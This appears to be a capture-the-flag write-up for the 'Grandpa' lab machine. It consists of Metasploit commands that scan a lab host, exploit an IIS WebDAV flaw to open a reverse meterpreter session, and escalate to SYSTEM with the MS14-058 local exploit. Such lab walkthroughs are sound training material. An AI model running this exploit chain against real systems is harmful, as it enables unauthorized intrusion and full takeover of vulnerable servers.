


# Grandpa

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a grandpa
msf6> setg rhosts 10.129.95.233
msf6> setg lhost 10.10.14.61
msf6> db_nmap -sV -sC -O 10.129.95.233
```

<figure><figcaption></figcaption></figure>

```bash
msf6> search type:exploit name:iis
msf6> use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf6> run

meterpreter> sysinfo  # throw error
# CTRL+Z

msf6> use multi/recon/local_exploit_suggester
msf6> set session 1
msf6> run
```

<figure><figcaption></figcaption></figure>

```bash
msf6> use exploit/windows/local/ms14_058_track_popup_menu
msf6> set session 1
msf6> set lport 4445
msf6> run

meterpreter> getuid  # NT AUTHORITY\SYSTEM
```
